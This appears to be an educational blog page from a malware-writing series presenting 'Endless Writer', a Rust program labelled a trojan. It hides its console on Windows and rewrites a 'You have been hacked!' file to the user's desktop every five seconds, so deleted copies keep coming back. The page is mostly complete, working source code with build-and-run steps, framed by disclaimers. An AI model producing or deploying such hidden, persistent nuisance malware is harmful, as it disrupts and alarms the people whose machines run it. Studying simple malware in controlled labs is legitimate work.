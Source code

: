 ```yaml
---
title: "Endless Writer"
description: "Endless Writer is a simple malware coded in Rust that writes a message to a file on the user's desktop every 5 seconds."
date: 2025-01-07
categories: [
    Malware,
    Trojan,
    Disruptive,
]
tags: [
    _mw_trojan,
    _mw_cross-platform,
    _rust_file-system-operations,
]
# layout: default
---
```


> This is for educational purposes only. The author is not responsible for any damage caused by this malware.
{: .prompt-warning}

| Malware | Endless Writer |
|---------|----------------|
| Type    | Trojan         |
| Function| File System Operations|
| OS      | Cross Platform |
| Language| Rust           |
| Behavior| `disruptive`   |
| Attack Delivery | Not Applicable |

## 1. Development

### 1.1. Obtaining the target directory

We use `PathBuf` and not just `std::env::var("-homve variable-".unwrap())` as PathBuf treats the obtained path as a path and not just a string. This allows us to use the join method to append the file name to the path.

Cross platform functionality is obtained using the `cfg!` macro. This allows us to check the target operating system and use the appropriate environment variable to get the home directory.

```rust
fn get_target_dir() -> PathBuf{
    let home_dir = if cfg!(target_os = "windows") {
        PathBuf::from(std::env::var("USERPROFILE").unwrap())
    } else {
        PathBuf::from(std::env::var("HOME").unwrap())
    };
    
    let desktop_dir = home_dir.join("Desktop");
    if Path::new(&desktop_dir).exists() && Path::new(&desktop_dir).is_dir() {
        return desktop_dir;
    }
    return home_dir;
}
```

The home directory is used as a fallback if the desktop directory does not exist. This is relevant for systems without a desktop environment.

### 1.2. Writing to the file

The `OpenOptions` struct is used to open the file. The `write` method is used to overwrite the file if it exists. The `create` method is used to create the file if it does not exist.

```rust
loop {
    match OpenOptions::new()
    .write(true)// Overwrite the file
    //.append(true)// append to the file
    .create(true)
    .open(&target_file){
        Ok(mut file) => {
            if let Err(e) = writeln!(file, "{}", MESSAGE){
                eprintln!("Error: {}", e);
            }
        }
        Err(e) => {
            eprintln!("Error: {}", e);
        }
    }
    sleep(Duration::from_secs(5)); // Pause for 5 seconds
}
```

This functionality is within a loop that runs indefinitely. The `sleep` function is used to pause the program for 5 seconds before writing to the file again. This minimizes resource usage.

### Results
- The console is hidden on windows due to the `#![windows_subsystem = "windows"]` attribute.
![Windows Execution](assets/malware/cross_platform/trojan/endless_writer/win-final.png)
- File re-appears every 5 seconds after deletion.
![Video showing the behavior of the Endless Writer Trojan on Linux.](assets/malware/cross_platform/trojan/endless_writer/lin-final.gif)

## Final Code
```rust
#![windows_subsystem = "windows"]

use std::{
    fs::OpenOptions, io::Write, path::{
        Path, 
        PathBuf
    }, thread::sleep, time::Duration
};

const MESSAGE: &str = "You have been hacked!";

fn get_target_dir() -> PathBuf{
    let home_dir = if cfg!(target_os = "windows") {
        PathBuf::from(std::env::var("USERPROFILE").unwrap())
    } else {
        PathBuf::from(std::env::var("HOME").unwrap())
    };
    
    let desktop_dir = home_dir.join("Desktop");
    if Path::new(&desktop_dir).exists() && Path::new(&desktop_dir).is_dir() {
        return desktop_dir;
    }
    return home_dir;
}
fn main() {
    let target_dir= get_target_dir();
    println!("{:?}", target_dir);
    let target_file = target_dir.join("hacked.txt");
    println!(
        "Writing malicious message to {}", // will still output to the console on other platforms
        target_file.display()
    );
    loop {
        match OpenOptions::new()
        .write(true)// Overwrite the file
        //.append(true)// append to the file
        .create(true)
        .open(&target_file){
            Ok(mut file) => {
                if let Err(e) = writeln!(file, "{}", MESSAGE){
                    eprintln!("Error: {}", e);
                }
            }
            Err(e) => {
                eprintln!("Error: {}", e);
            }
        }
        sleep(Duration::from_secs(5)); // Pause for 5 seconds
    }
}
```

### Steps to build and run the malware

> Do not run this code on your physical machine. Always run malware in a controlled environment.
{: .prompt-danger}

1. Create a new Rust project using `cargo new endless_writer`.
2. Replace the contents of the `main.rs` file with the code above.
3. Build the project using `cargo build --release`.
4. Navigate to the target directory using `cd target/release`.
5. Copy the executable in the target directory to a controlled environment.
6. Run the executable.

```bash
cargo new endless_writer
cd endless_writer
# Replace the contents of the main.rs file with the code above
cargo build --release
cd target/release
# Copy the executable to a controlled environment
./endless_writer
```